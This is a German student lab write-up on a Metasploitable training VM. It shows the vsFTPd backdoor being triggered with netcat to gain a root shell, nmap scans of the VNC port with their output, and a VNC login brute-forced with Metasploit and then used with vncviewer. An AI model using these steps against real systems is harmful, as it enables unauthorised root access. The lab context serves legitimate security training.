


# very safe FTP backdoor und VNC Exploitation

## exploit ohne msf

**Angabe**

Versuche die vsFTP Sicherheitslücke mit Standard shell Befehlen auszunutzen. Verwende nicht msfconsole und kein Python Script.

Hinweise:

Suche in der Exploit Database
Du findest ein Python Script. Analysiere dieses.
Verwende nc (netcat)

**Lösung**

```
$ nc 192.168.2.52 21
```
um den User und das PW anlegen zu können

```
$ nc 192.168.2.52 6200
```

anschließend muss man noch **whoami** eingeben

**Ausgabe**

root




## Übung (VNC - Recherche)

**Aufgabe**

Recherchiere Basics zu VNC (Virtual Network Computing).

### VNC (Virtual Network Computing) – Basics
#### 1. Was ist VNC?

VNC ist eine Technologie zur Fernsteuerung von Computern.

Es ermöglicht die Anzeige des Bildschirms eines entfernten Computers und die Interaktion über Tastatur und Maus.

Plattformunabhängig: funktioniert zwischen verschiedenen Betriebssystemen (Windows, macOS, Linux).

#### 2. Funktionsweise

VNC basiert auf dem RFB-Protokoll (Remote Framebuffer Protocol).

Der VNC-Server läuft auf dem zu steuernden Computer.

Der VNC-Client (Viewer) verbindet sich mit dem Server, um Bildschirm, Tastatur und Maus zu übertragen.

Ablauf:

Client verbindet sich mit dem Server.

Server sendet Bildschirmdaten an den Client.

Client sendet Eingaben (Tastatur/Maus) zurück.

Änderungen am Bildschirm werden kontinuierlich übertragen.

#### 3. Wichtige Komponenten

VNC-Server: Software, die auf dem Zielgerät installiert ist.

VNC-Client (Viewer): Software, die auf dem lokalen Gerät installiert ist.

RFB-Protokoll: Kommunikationsprotokoll zwischen Client und Server.

#### 4. Sicherheitsaspekte

Standard-VNC überträgt Daten unverschlüsselt.

Häufige Sicherheitsmaßnahmen:

SSH-Tunnel zur Verschlüsselung

VPN-Verbindung

Passwortschutz

#### 5. Typische Anwendungsfälle

Remote-Administration von Servern.

Fernwartung und Support.

Zugriff auf Heim-PCs von unterwegs.

Bildung/Schulung: Lehrer zeigen ihren Bildschirm.

#### 6. Bekannte VNC-Implementierungen

TightVNC (Open Source, Windows/Linux)

RealVNC (kommerziell & Free-Version)

UltraVNC (Windows, zusätzliche Features)

TigerVNC (schnell, sicher, Cross-Plattform)

Kurzfassung: VNC ist ein universelles Werkzeug, um Computer fernzusteuern, Bildschirmdaten zu übertragen und Eingaben aus der Ferne zu verarbeiten, hauptsächlich über das RFB-Protokoll, wobei Sicherheitsmaßnahmen dringend empfohlen werden.

## VNC- Scan

**Aufgabe**

Scanne mit nmap den VNC Port auf Metasploitable. Teste Version und Banner. Verwende das nmap Script vnc-info.

**Lösung**

Prüfen, ob VNC-Port offen ist

```
$ nmap -p 5900 192.168.2.52
```
**Ausgabe**

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-02 06:33 EST
Nmap scan report for 192.168.2.52
Host is up (0.00056s latency).

PORT     STATE  SERVICE
5900/tcp open   vnc<br>
5901/tcp closed vnc-1<br>
5902/tcp closed vnc-2<br>
5903/tcp closed vnc-3<br>
5904/tcp closed ag-swim<br>
5905/tcp closed asmgcs<br>
5906/tcp closed rpas-c2<br>
5907/tcp closed dsd<br>
5908/tcp closed ipsma<br>
5909/tcp closed agma<br>
5910/tcp closed cm<br>


Prüfen, welche Version und Service

```
$ nmap -sV -p 5900 192.168.2.52
```

**Ausgabe**

Starting Nmap 7.95 ( https://nmap.org ) at <br>2026-02-02 06:36 EST<br>
Nmap scan report for 192.168.2.52<br>
Host is up (0.00043s latency).<br>

PORT     STATE SERVICE VERSION<br>
5900/tcp open  vnc     VNC (protocol 3.3)<br>
MAC Address: 00:0C:29:7E:F9:4D (VMware)<br>

Service detection performed. Please report any<br> incorrect results at https://nmap.org/submit/ .<br>
Nmap done: 1 IP address (1 host up) scanned in 0.<br>38 seconds<br>


Beide Befehle vereinen

```
$ nmap -sV -p 5900 --script vnc-info 192.168.2.52
```
**Ausgabe**

Starting Nmap 7.95 ( https://nmap.org ) at <br>2026-02-02 06:43 EST<br>
Nmap scan report for 192.168.2.52<br>
Host is up (0.00038s latency).<br>

PORT     STATE SERVICE VERSION<br>
5900/tcp open  vnc     VNC (protocol 3.3)<br>
| vnc-info: <br>
|   Protocol version: 3.3<br>
|   Security types: <br>
|_    VNC Authentication (2)<br>
MAC Address: 00:0C:29:7E:F9:4D (VMware)<br>

Service detection performed. Please report any <br>incorrect results at https://nmap.org/submit/ .<br>
Nmap done: 1 IP address (1 host up) scanned in 0.<br>38 seconds<br>


## VNC-Exploit

**Aufgabe**

Metasploitable enthält eine Schwachstelle im VNC Server.

In metasploit gibt es ein Modul unter auxiliary/scanner/vnc das auf Login Vulnerabilities testet. Verwende dieses Modul.
Anschließend liegen genug Informationen vor um eine VNC Verbindung von Kali auf Metasploitable aufzubauen (mit vncviewer). Als welcher User bist du nun eingeloggt?

**Lösung**

```
msfconsole
```
in der Kali eingeben, damit man aus MS zugreifen kann

```
use auxiliary/scanner/vnc/vnc_login
```
Um in das Verzeichnis zu kommen

```
set RHOSTS 192.168.56.101
set RPORT 5900
```
wird benötigt, dass man dann darauf zugrefen kann


Nun gibt man **run** ein

Anschließend muss man noch 

```
vncviewer 192.168.2.52:5900
```

eingeben, um sich schließlich mit **passwort** anmelden zu können



Angemeldet ist man dann als **root-User**
